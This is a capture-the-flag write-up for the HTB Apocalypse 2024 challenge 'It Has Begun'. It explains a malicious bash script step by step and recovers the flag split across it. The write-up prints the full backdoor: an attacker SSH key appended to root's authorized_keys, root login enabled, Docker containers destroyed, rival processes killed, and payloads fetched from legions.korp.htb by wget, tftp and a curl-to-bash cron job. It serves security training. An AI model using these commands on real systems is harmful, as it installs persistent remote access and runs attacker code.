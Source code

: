 ```yaml
---
layout: default
title: It Has Begun
parent: HTB Apocalypse 2024
nav_order: 2
---
```


This challenge provides just a single bash script. Taking a quick look at this script, it appears to be a targeted backdoor for a single system. More specifically, it does tha following:

It starts with a shebang(`#!`) which allows it to be run with `./script.sh` instead of `/bin/sh script.sh`

```
#!/bin/sh
```

Next, it makes sure that the name of the machine is "KORP-STATION-013" before continuing

```
if [ "$HOSTNAME" != "KORP-STATION-013" ]; then
    exit
fi
```

It also ensures that the effective user ID (what programs are run as) is root

```
if [ "$EUID" -ne 0 ]; then
    exit
fi
```

Next, it gets the container ID of all running containers and stops them before removing all containers.

```
docker kill $(docker ps -q)
docker rm $(docker ps -a -q)
```

The following chunk does a couple things to set up the machine for a backdoor. It starts by adding a key that can be used for ssh access from a user on tS_u0y_ll1w{BTH (the first part of the flag reversed). After that, it makes sure it's resolving domain names using Google's DNS. Then, it allows a user to login as root over ssh, lastly, it adds a local DNS resolution for legions.korp.htb.

```
echo "ssh-rsa AAAAB4NzaC1yc2EAAAADAQABAAABAQCl0kIN33IJISIufmqpqg54D7s4J0L7XV2kep0rNzgY1S1IdE8HDAf7z1ipBVuGTygGsq+x4yVnxveGshVP48YmicQHJMCIljmn6Po0RMC48qihm/9ytoEYtkKkeiTR02c6DyIcDnX3QdlSmEqPqSNRQ/XDgM7qIB/VpYtAhK/7DoE8pqdoFNBU5+JlqeWYpsMO+qkHugKA5U22wEGs8xG2XyyDtrBcw10xz+M7U8Vpt0tEadeV973tXNNNpUgYGIFEsrDEAjbMkEsUw+iQmXg37EusEFjCVjBySGH3F+EQtwin3YmxbB9HRMzOIzNnXwCFaYU5JjTNnzylUBp/XB6B user@tS_u0y_ll1w{BTH" >> /root/.ssh/authorized_keys
echo "nameserver 8.8.8.8" >> /etc/resolv.conf
echo "PermitRootLogin yes" >> /etc/ssh/sshd_config
echo "128.90.59.19 legions.korp.htb" >> /etc/hosts
```

Next, the script looks for a list of running programs, and kills any program that matches an entry on that list.

```
for filename in /proc/*; do
    ex=$(ls -latrh $filename 2> /dev/null|grep exe)
    if echo $ex |grep -q "/var/lib/postgresql/data/postgres\|atlas.x86\|dotsh\|/tmp/systemd-private-\|bin/sysinit\|.bin/xorg\|nine.x86\|data/pg_mem\|/var/lib/postgresql/data/.*/memory\|/var/tmp/.bin/systemd\|balder\|sys/systemd\|rtw88_pcied\|.bin/x\|httpd_watchdog\|/var/Sofia\|3caec218-ce42-42da-8f58-970b22d131e9\|/tmp/watchdog\|cpu_hu\|/tmp/Manager\|/tmp/manh\|/tmp/agettyd\|/var/tmp/java\|/var/lib/postgresql/data/pоstmaster\|/memfd\|/var/lib/postgresql/data/pgdata/pоstmaster\|/tmp/.metabase/metabasew"; then
        result=$(echo "$filename" | sed "s/\/proc\///")
        kill -9 $result
        echo found $filename $result
    fi
done
```

Next to last, it ensures that the architecture of the system is one of x86, x86_64, mips, aarch64, or arm.

```
ARCH=$(uname -m)
array=("x86" "x86_64" "mips" "aarch64" "arm")

if [[ $(echo ${array[@]} | grep -o "$ARCH" | wc -w) -eq 0 ]]; then
  exit
fi
```

Lastly, it locates a directory it can access, downloads a variety of scripts, runs them, and adds a cron job to run one every 5 minutes. In the cron job, it also has a base64 encoded part of the flag (4nd_y0uR_Gr0uNd!!})

```
cd /tmp || cd /var/ || cd /mnt || cd /root || cd etc/init.d  || cd /; wget http://legions.korp.htb/0xda4.0xda4.$ARCH; chmod 777 0xda4.0xda4.$ARCH; ./0xda4.0xda4.$ARCH; 
cd /tmp || cd /var/ || cd /mnt || cd /root || cd etc/init.d  || cd /; tftp legions.korp.htb -c get 0xda4.0xda4.$ARCH; cat 0xda4.0xda4.$ARCH > DVRHelper; chmod +x *; ./DVRHelper $ARCH; 
cd /tmp || cd /var/ || cd /mnt || cd /root || cd etc/init.d  || cd /; busybox wget http://legions.korp.htb/0xda4.0xda4.$ARCH; chmod 777;./0xda4.0xda4.$ARCH;
echo "*/5 * * * * root curl -s http://legions.korp.htb/0xda4.0xda4.$ARCH | bash -c 'NG5kX3kwdVJfR3IwdU5kISF9' " >> /etc/crontab
```

Combining the two parts of the found flag gets: HTB{w1ll_y0u_St4nd_y0uR_Gr0uNd!!}